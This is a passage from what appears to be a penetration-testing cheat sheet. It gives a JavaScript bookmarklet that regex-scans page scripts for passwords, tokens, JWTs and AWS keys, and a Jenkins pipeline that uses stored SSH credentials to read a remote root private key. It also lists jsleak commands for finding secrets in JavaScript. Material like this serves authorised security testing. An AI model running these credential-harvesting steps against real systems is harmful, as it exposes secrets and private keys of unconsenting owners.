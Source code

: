 ```javascript
})();
```

or

```javascript
javascript:(function(){var scripts=document.getElementsByTagName("script");const patterns={credentials:/pass(word|wd|phrase)|secret|token|api[-_]?key|auth|credential|private[-_]key/gi,jwt:/(eyJ[a-zA-Z0-9_-]{5,}\.[a-zA-Z0-9_-]{5,}\.[a-zA-Z0-9_-]{5,})/g,ips:/(10\.\d{1,3}\.\d{1,3}\.\d{1,3}|172\.(1[6-9]|2\d|3[0-1])\.\d{1,3}\.\d{1,3}|192\.168\.\d{1,3}\.\d{1,3})/g,awsKeys:/(AKIA|ASIA)[A-Z0-9]{16}/g,emails:/([a-zA-Z0-9._-]+@[a-zA-Z0-9._-]+\.[a-zA-Z0-9_-]+)/gi,urlSecrets:/(https?:\/\/[^:\/]+:[^@\/]+@)/g};const results={};function scanText(t,loc){Object.entries(patterns).forEach(([name,regex])=>{let m;while((m=regex.exec(t))!==null){if(!results[loc])results[loc]=[];if(results[loc].indexOf(m[0])===-1)results[loc].push(m[0])}})}for(let i=0;i<scripts.length;i++){let s=scripts[i];if(s.src){fetch(s.src).then(r=>r.text()).then(t=>{scanText(t,s.src)}).catch(e=>console.error(e));if(s.textContent.trim()!=="")scanText(s.textContent,s.src+" (inline fallback)") } else {scanText(s.textContent,"inline script #"+(i+1))}};scanText(document.body.innerHTML,document.location.href);function showResults(){let total=0;Object.values(results).forEach(arr=>{total+=arr.length});document.write('<h3>Found '+total+' potential secret(s) across '+Object.keys(results).length+' location(s):</h3>');Object.entries(results).forEach(([loc,secrets])=>{document.write('<h4>Location: <code>'+loc+'</code></h4>');secrets.forEach(sec=>{document.write('<code>'+sec+'</code><br>')})})}setTimeout(showResults,5000)})();
```

## Jenkins

### Read SSH Keys through Pipelines

The following example the `SSH Agent Plugin` enabled.

```console
pipeline {
    agent any
    
    stages {
        stage('SSH') {
            steps {
                script {
                    sshagent(credentials: ['1']) {
                        sh 'ssh -o StrictHostKeyChecking=no root@<RHOST> "cat /root/.ssh/id_rsa"'
                    }
                }
            }
        }
    }
}
```

## jsleak

```console
$ echo http://<DOMAIN>/ | jsleak -s          // Secret Finder
$ echo http://<DOMAIN>/ | jsleak -l          // Link Finder
$ echo http://<DOMAIN>/ | jsleak -e          // Complete URL
$ echo http://<DOMAIN>/ | jsleak -c 20 -k    // Check Status
$ cat <FILE>.txt | jsleak -l -s -c 30        // Read from File
```
